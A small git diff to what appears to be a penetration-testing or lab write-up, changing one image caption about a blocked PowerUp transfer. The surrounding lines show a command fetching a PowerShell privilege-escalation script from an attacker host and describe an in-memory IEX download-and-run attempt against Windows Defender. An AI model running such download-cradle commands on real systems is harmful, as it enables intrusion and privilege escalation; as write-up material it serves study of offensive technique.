

ok now done fr

diff --git a/_posts/2025-11-1-Sysco.md b/_posts/2025-11-1-Sysco.md
@@ -285,7 +285,7 @@ Invoke-Webrequest "http://myip/powerup.ps1 -outfile powerup.ps1"
 ```
  was blocked by Windows Defender's real-time protection.
 ![Defender](/assets/images/AV-Block.png)
-*Transfer worked, execution did not*
+*Transfer worked (200 request), execution did not*
 
 Pivoted to a fileless execution approach using `IEX (New-Object Net.WebClient).DownloadString()` to load PowerUp directly into memory, but this was also intercepted.
 
